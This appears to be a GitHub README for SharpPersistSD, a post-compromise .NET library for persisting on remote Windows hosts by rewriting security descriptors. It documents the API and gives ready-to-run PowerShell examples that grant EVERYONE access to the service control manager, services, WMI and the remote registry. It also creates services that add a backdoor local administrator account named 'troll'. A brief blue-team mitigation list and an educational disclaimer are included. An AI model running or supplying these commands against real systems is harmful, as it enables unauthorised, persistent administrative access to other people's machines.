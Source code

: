 # SharpPersistSD
A Post-Compromise granular, fully reflective, simple and convenient .NET library to embed persistency to persistency by abusing Security Descriptors of remote machines. The techniques incorporated are not novel but I've yet to come across any documented approach of modifying SCM/Service's SDDL by directly modifying registry keys. Modification of SD for WMI and Remote registry was also added in as an after thought but this means there's a lot more to explore and add for the curious minds.

# Compilation

1. Git clone / download project and open with visual studio
2. Rightclick the project -> add reference and add *System.Management* and add *System.Management.Instrumentation*
3. Compile as x64, Release\
\
*******No other dependencies*******

# Nomenclature
Methods are named according to **PROTOCOL_ACTION**\
so REG_ModifyRegistryPermissions\
means it uses the RemoteRegistry protocol to modify registry permissions..

# Caveats
1. The library checks the SDDL syntax but not the SDDL logic, so best to stick to example SDDL and just change the principal of the SDDL
2. As this is a Post-Compromise library, it assumes you are running with the relevant privileges and permissions already.
3. Library is focused for domain environments, but you can use it in workgroup with the relevant additional changes.


# library

**REG_ModifyRegistryPermissions(string hostname, string subkey, string principal, bool propogate)**
```
- subkey: must be like "SYSTEM\<key>" or "SYSTEM\<key>\<key>"
- principal: "EVERYONE", "Domain\User", etc
- propogate: if true, will set permissions to subkeys of the key
```

**REG_ModifyRegistryContainingSD(string type, string hostname, string SDDL, string key, string value)**
```
- type: "DCOM" or "SVC" or "SCM"
- SDDL: any legitimate SDDL string such as "(A;;KA;;;WD)" or "(A;;KA;;;S-1-1-0)"
- Key: key name, if type="SVC", the key must follow the format "SYSTEM\CurrentControlSet\Services\<SERVICENAME>\Security"
- value: value name
```

**WMI_ModifyWMISD(string hostname, string SDDL)**
```
- SDDL: Change the principal component of the SDDL string such as "(A;;CCDCRP;;;WD)" or "(A;;CCDCRP;;;S-1-1-0)" 
```

**REG_CreateRegKey(string hostname, string key, string value, object data, int REG_TYPE)**
```
- data: depending on REG_TYPE, you can pass string for string, int for Dword or byte[] for Binary
- REG_TYPE: String = 1, Binary = 3, DWord = 4
```

**SCM_CreateAndStart(string hostname, string servicename, string binarypath)**
```
- servicename: service to create 
- binarypath: binarypath in the for "c:\windows\..\example.exe" or "cmd /c blah blah blah"
```

**SVC_ModifyAndStart(string hostname, string servicename, string BinaryPathName)**
```
- servicename: service to create 
- binarypath: binarypath in the for "c:\windows\..\example.exe" or "cmd /c blah blah blah"
```


# Example Usage

## SCM SD, allow everyone  - Requires Reboot for services.exe to restart!!
```
#Modify SD to allow "EVERYONE" access to service control manager
[SharpPersistSD.SecurityDescriptor]::REG_ModifyRegistryContainingSD("SCM","Hostname","(A;;KA;;;WD)","SYSTEM\CurrentControlSet\Control\ServiceGroupOrder\Security", "Security")

#Set exemption for non-admin to access services. This sets for all services, you can use REG_CreateRegKey to set for specific service.
[SharpPersistSD.SecurityDescriptor]::REG_CreateRegKey("Hostname", "SYSTEM\CurrentControlSet\Control", "RemoteAccessExemption", 1, 4)

#After reboot - You must use the provided SCM_CreateAndStart() function. sc.exe will not work to start the service.
#Create and start service
[SharpPersistSD.SecurityDescriptor]::SCM_CreateAndStart("Hostname","troll","cmd /c net users /add troll Trolololol123 && net localgroup administrators /add troll")
```
## SVC SD, allow everyone  - Requires Reboot for services.exe to restart!! 
```
#Modify SD to allow "EVERYONE" access to specific service (eg.PlugPlay)
[SharpPersistSD.SecurityDescriptor]::REG_ModifyRegistryContainingSD("SVC","Hostname","(A;;KA;;;WD)","SYSTEM\CurrentControlSet\Services\PlugPlay\Security", "Security")

#Set exemption for non-admin to access services. This sets for all services, you can use REG_CreateRegKey to set for specific service.
[SharpPersistSD.SecurityDescriptor]::REG_CreateRegKey("Hostname", "SYSTEM\CurrentControlSet\Control", "RemoteAccessExemption", 1, 4)

#After reboot - You must use the provided SVC_ModifyAndStart() function. sc.exe will not work to start the service.
#Modify and start service
[SharpPersistSD.SecurityDescriptor]::SVC_ModifyAndStart("Hostname", "troll", "cmd /c net users /add troll Trolololol123 && net localgroup administrators /add troll")
```
## REG SD, allow everyone 
```
#Modify SD to allow "EVERYONE" access to remote registry service
[SharpPersistSD.SecurityDescriptor]::REG_ModifyRegistryPermissions("Hostname","SYSTEM\CurrentControlSet\Control\SecurePipeServers\winreg","EVERYONE",$false)

#Modify key to allow write  
[SharpPersistSD.SecurityDescriptor]::REG_ModifyRegistryPermissions("Hostname","SYSTEM\CurrentControlSet\Control","EVERYONE",$true)

#Alternatively, you can set it on "SYSTEM", which lets you create services, scheduled tasks just via registry keys (eg. GhostTask)
```
## WMI SD, allow everyone 
```
#Modify SD to allow "EVERYONE" access to WMI
[SharpPersistSD.SecurityDescriptor]::WMI_ModifyWMISD("Hostname","(A;;CCWP;;;WD)") 
[SharpPersistSD.SecurityDescriptor]::REG_ModifyRegistryContainingSD("DCOM","Hostname","(A;;CCDCRP;;;WD)","software\microsoft\ole", "MachineLaunchRestriction")

#Can use any wmi tool to connect (eg. SharpWMI)
```

# Blue Team and Mitigations
1. GPO! GPO! GPO! ENFORCE VIA GPO!
2. Monitor Registry Changes for the ones mentioned ^
3. Monitor SERVICE CREATION / STOP / START
4. Firewall off unneeded protocols

# Wishlist / Upgrades - which i will not be pursuing
1. Add features for PSRemoting, ScheduledTask and yada yada
2. REG_ uses RemoteRegistry, you can incporate WMI to perform registry actions as well to make WMI_ModifyRegistryPermissions

# Disclaimer
For educational purposes only!

# Credits / References
- https://www.c-sharpcorner.com/UploadFile/puranindia/windows-management-instrumentation-in-C-Sharp/
- https://itconnect.uw.edu/tools-services-support/it-systems-infrastructure/msinf/other-help/understanding-sddl-syntax/
- https://gist.github.com/pich4ya/c15af736f0f494c1a560e6c837d77828 
- https://learn.microsoft.com/en-us/windows/win32/wmisdk/changing-access-security-on-securable-objects
- https://unlockpowershell.wordpress.com/2009/11/20/script-remote-dcom-wmi-access-for-a-domain-user/
- https://albertherd.com/2017/10/19/code-never-lies-documentation-sometimes-do/
- https://github.com/Mr-Un1k0d3r/SCShell/blob/master/SharpSCShell.cs
- https://www.experts-exchange.com/questions/27096211/VB-net-set-registry-key-remotely.html
- https://raw.githubusercontent.com/samratashok/RACE/master/RACE.ps1
- https://stackoverflow.com/questions/6851961/using-regsetkeysecurity-to-avoid-registry-redirection
- https://forums.powershell.org/t/unable-to-set-acl-on-remote-registry-kindly-help/7078/5
- https://posts.specterops.io/remote-hash-extraction-on-demand-via-host-security-descriptor-modification-2cf505ec5c40
- https://woshub.com/set-permissions-on-windows-service/
- https://support.microsoft.com/en-us/topic/block-remote-callers-who-are-not-local-administrators-from-starting-stopping-services-c5f77f8e-09e6-57e6-72d1-2c4423627a24
- https://vbscrub.com/2020/06/02/windows-createservice-api-bypasses-service-permissions/
- https://github.com/VbScrub/ServiceInstallerTest/blob/master/Program.vb
- https://stackoverflow.com/questions/2732126/deletesubkey-unauthorizedaccessexception
- https://stackoverflow.com/questions/28739477/accessing-a-remote-registry-with-local-credentials-of-the-remote-machine-on-th
- https://www.rhyous.com/2011/08/07/how-to-authenticate-and-access-the-registry-remotely-using-c/



